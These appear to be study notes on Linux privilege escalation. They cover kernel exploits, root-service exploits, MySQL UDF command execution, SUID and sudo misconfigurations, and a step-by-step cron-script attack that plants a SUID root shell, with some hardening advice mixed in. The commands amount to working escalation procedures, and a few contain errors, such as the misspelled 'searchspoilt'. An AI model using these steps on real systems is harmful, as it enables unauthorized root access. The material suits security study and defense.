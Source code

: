 _Example_: Dirty Cow Exploit replaces “root” with “rash” by editing the /etc/passwd file
* [DirtyCow variants on GitHub](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

_Example_: [Dirty Pipe Exploit](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/) [[Link to code](https://haxx.in/files/dirtypipez.c) that hijacks SUID binary for root access]

Kernel exploits can be searched through Kali using “searchspoilt”
* $ searchspoilt Linux Kernel 2.6.24 (← Kernel number found by running uname -a)

**<span style="text-decoration:underline;">Root-Service Exploits</span>**
Exploits that operate through services running as root. 
Check open and active ports by running netstat -antup [[How to use netstat]](https://www.howtogeek.com/513003/how-to-use-netstat-on-linux/)

_Examples_: [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue), [SambaCry](https://thehackernews.com/2017/05/samba-rce-exploit.html) 
_Example_: [PwnKit](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) runs on the back of the PolKit daemon for system-policy management

[MySQL UDF Dynamic Library Exploit](https://www.exploit-db.com/exploits/1518/)
* Find services running as root: ps -aux | grep root
* From the mysql shell:
    * create function do_system returns integer so name ‘raptor_udf2.so’
    * select do_system(‘id > /tmp/out; chown smeagol.smeagol /tmp/out’);
    * \! sh

**<span style="text-decoration:underline;">SUID Executable Exploits</span>**
“Set user ID” executes file permissions with a specific user using ‘s’ instead of ‘x’ in the permission set (eg. -rwsr-xr-x allows low privilege users to execute with root privileges). 

Avoid this by:
* Never set SUID on any program that allows escape to shell
* Never set SUID on any editor/comiler/interpreter

**<span style="text-decoration:underline;">SUDO Exploits</span>**
Misconfigured SUDO rights can allow root access through programs that edit code or allow escape to the shell

Avoid this by:
* Never give SUDO to any program that allows escape to shell
* Never give SUDO to vi, more, less, nmap, perl, ruby, python, gdb and others

**<span style="text-decoration:underline;">cron job Exploits</span>**
cron jobs usually run with root privilege to poorly configured cron files can allow arbitrary code to be executed

<span style="text-decoration:underline;">World-writable cron script Exploit</span>
* Print world-writeable files `find / -perm -2 -type f 2>/dev/null`
* Confirm cron file is writeable `ls -la /usr/local/sbin/cron-logrotate.sh`
* Write C file in /tmp `cd /tmp` then `vi rootme.c`
* Compile C file `cat rootme.c`
* Change exec owner & group to root
`echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;” >/usr/local/sbin/cron-logrotate.sh`
* After 5 mins confirm C file root privilege `ls -la rootme`
* Run file to spawn root shell `./rootme`
